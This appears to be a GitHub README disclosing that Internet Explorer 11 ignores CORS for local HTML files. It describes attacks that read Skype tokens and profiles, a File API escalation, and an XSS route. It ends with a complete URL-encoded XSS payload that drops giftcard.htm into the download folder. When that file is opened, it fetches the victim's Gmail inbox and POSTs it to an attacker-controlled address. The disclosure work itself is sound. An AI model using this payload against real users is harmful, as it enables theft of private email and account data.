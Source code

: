 # IE11xCORSxSOP
IE11 is not following CORS specification for local files like Chrome and Firefox.<br>
I've contacted Microsoft and they say this is not a security issue so I'm sharing it.<br>
From my tests IE11 is not following CORS specifications for local files as supposed to be.<br>
In order to prove I've created a malicious cors.html.<br>
The cors.html will be able to get an skype token and perform get on the user profile. Instead of using alert() function I could send this information to a domain that I have control.<br>
Of course the victim needs to open the file from his local drive or maybe another application can open an IE instance.<br>
If the user is logged on a Microsoft account and open the html file with the content above with onload function instead of onclick I'd be able to get his profile data.<br>
This is a simple scenario. An attacker would be able to get any data from any domain that do not require a unique ID (e.g. CSRF token) which the attacker doesn't have and is unable to get.<br>
If you do the same test on Chrome or Firefox the browser will follow CORS specification and block the response content since no CORS headers is present in the response.<br>
I tested on IE11 running on Win7SP1  with all security patches and it worked. On Win10 didn't work. I didn't test in any server with CORS enabled.<br>
If you think in another malicious scenario please let me know.

I did a small improvement in this attack.
Using IE File API (https://msdn.microsoft.com/en-us/library/hh772315(v=vs.85).aspx) an attacker would be able to create a web page with the content of fileAPI.html and send to a victim.
A local file with the same content of cors.html would be created on download default folder.
If the victim perform the three following clicks (Save, Open and Allow blocked content) an attacker would be able to perform any request to any domain and send the content to a domain which he/she has control.
If the attacker is a MitM position this could be more intersting. Since the attacker could inject this content in a HTTP page and the victim will tend to relay on that.
Next step would be force the victim to click on Save, Open and Allow blocked content buttons.

Same attack using XSS as vector.
Imagine that https://xss-doc.appspot.com is a site about gift cards.
The XSS payload below will create a giftcard.htm file in the default download folder.
If the victim open the file a GET to https://mail.google.com/mail/u/0/#inbox will be submitted.
After the GET the file will perform a POST to http://192.168.1.36/req.php using the GET response as a body.
An attacker would be able to read all the emails in the following requests.
I tested on Win7SP1 and IE11 with all patches and it worked.

https://xss-doc.appspot.com/demo/2?query=%3Cscript%3Eif%28typeof+Blob+%21%3D%3D+%22undefined%22%29%7BdemoBlobs%28%29%3B%7Dfunction+demoBlobs%28%29%7Bvar+blob+%3D+new+Blob%28%5B%22%3Chtml%3E%3Cbody+onload%3D%5C%22go%28%29%5C%22%3E%3Cscript%3Efunction+req%28mtd%2Curl%2Cbdy%29%7Bvar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28mtd%2Curl%2Cfalse%29%3Bxhr.send%28bdy%29%3Breturn+xhr.responseText%3B%7D%3Bfunction+go%28%29%7Bvar+gmail%3Dreq%28%5C%22GET%5C%22%2C%5C%22https%3A%5C%2F%5C%2Fmail.google.com%5C%2Fmail%5C%2Fu%5C%2F0%5C%2F%23inbox%5C%22%2Cnull%29%3Breq%28%5C%22POST%5C%22%2C%5C%22http%3A%5C%2F%5C%2F192.168.1.36%5C%2Freq.php%5C%22%2Cgmail%29%7D%3B%3C%5C%2Fscript%3E%3C%5C%2Fbody%3E%3C%5C%2Fhtml%3E%22%5D%29%3B+++window.navigator.msSaveBlob%28blob%2C+%27giftcard.htm%27%29%3B%7D%3C%2Fscript%3E
